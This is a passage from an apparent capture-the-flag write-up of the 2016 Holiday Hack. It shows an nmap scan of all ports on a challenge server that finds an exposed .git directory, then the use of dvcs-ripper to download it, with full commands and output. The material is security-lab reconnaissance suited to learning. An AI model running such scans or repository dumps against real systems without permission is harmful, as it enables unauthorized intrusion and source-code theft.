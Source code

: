 


### The Mobile Analytics Server (post authentication)

Already knowing that I had the audio file for the authenticated `guest` account, there must be another area to attack on this server.  Another elf named "Minty Candycane" suggested using the nmap default scripts (-sC) flag to find extra files on web servers.  Let's give it a shot.

```yaml
josh@MacBook-Pro ~/HolidayHack2016 $ nmap -sC -p- analytics.northpolewonderland.com -oA analytics.northpolewonderland.com

Starting Nmap 7.31 ( https://nmap.org ) at 2016-12-24 13:32 EST
Nmap scan report for analytics.northpolewonderland.com (104.198.252.157)
Host is up (0.040s latency).
rDNS record for 104.198.252.157: 157.252.198.104.bc.googleusercontent.com
Not shown: 65533 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey:
|   1024 5d:5c:37:9c:67:c2:40:94:b0:0c:80:63:d4:ea:80:ae (DSA)
|   2048 f2:25:e1:9f:ff:fd:e3:6e:94:c6:76:fb:71:01:e3:eb (RSA)
|_  256 4c:04:e4:25:7f:a1:0b:8c:12:3c:58:32:0f:dc:51:bd (ECDSA)
443/tcp open  https
| http-git:
|   104.198.252.157:443/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Finishing touches (style, css, etc)
| http-title: Sprusage Usage Reporter!
|_Requested resource was login.php
| ssl-cert: Subject: commonName=analytics.northpolewonderland.com
| Subject Alternative Name: DNS:analytics.northpolewonderland.com
| Not valid before: 2016-12-07T17:35:00
|_Not valid after:  2017-03-07T17:35:00
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| tls-nextprotoneg:
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 125.65 seconds
```

A Git repository found! To clone the repository locally, I used [dvcs-ripper](https://github.com/kost/dvcs-ripper).  Just clone the dvcs-ripper repo, install any missing requirements and point rip-git.pl at the .git directory. Will also need to ignore SSL certification verification (with -s).

```
josh@MacBook-Pro /opt/dvcs-ripper (master*) $ ./rip-git.pl -s -v -u 'https://analytics.northpolewonderland.com/.git/'
[i] Downloading git files from https://analytics.northpolewonderland.com/.git/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[i] Using session name: MtvKvTOc
[d] found COMMIT_EDITMSG
[d] found config
[d] found description
[d] found HEAD
[d] found index
[!] Not found for packed-refs: 404 Not Found
[!] Not found for objects/info/alternates: 404 Not Found
[!] Not found for info/grafts: 404 Not Found
[d] found logs/HEAD
[d] found objects/d6/3a7e0df35ad525fa40eceae67be5b27215ece8
[d] found objects/10/57b70e7681f44aac2789e26a2b714327d8c203
[d] found objects/bb/2646691fc9f6bf5f1a0ade746b28f8147ffa48
[d] found objects/42/0f433fe33d14abac5c3a588c3e753d0d71d50d
```